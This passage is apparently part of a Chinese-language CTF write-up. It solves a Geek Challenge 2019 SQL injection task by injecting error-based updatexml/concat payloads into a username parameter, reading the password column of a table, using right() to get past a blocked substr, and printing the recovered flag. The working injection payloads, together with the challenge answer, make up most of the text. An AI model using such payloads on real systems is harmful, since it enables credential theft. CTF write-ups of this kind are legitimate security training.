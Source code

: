 （因为只有一张表，所以懒得加table_name=了）

返回：

XPATH syntax error: '~id,username,password~'

查password：

?username=cangxue'or(updatexml(1,concat(0x7e,(select(password)from(H4rDsq1)),0x7e),1))#
?username=cangxue%27or(updatexml(1,concat(0x7e,(select(password)from(H4rDsq1)),0x7e),1))%23

返回：

XPATH syntax error: '~flag{c526d579-8b57-445e-9604-71'

发现flag的右半不见了，但是substr被禁用，我们用right函数即可，

有些注入场景下，回显只能显示部分内容，而你想让回显里出现你关注的内容（比如flag的最后几位），这时用 right() 很方便：

?username=cangxue'or(updatexml(1,concat(0x7e,right((select(password)from(H4rDsq1)),31),0x7e),1))#
?username=cangxue%27or(updatexml(1,concat(0x7e,right((select(password)from(H4rDsq1)),31),0x7e),1))%23

返回：

XPATH syntax error: '~79-8b57-445e-9604-715dea2ce70d}'

(注意中间有重叠)

拼凑起来得到flag：

flag{c526d579-8b57-445e-9604-715dea2ce70d}

大功告成！

## [极客大挑战 2019]FinalSQL
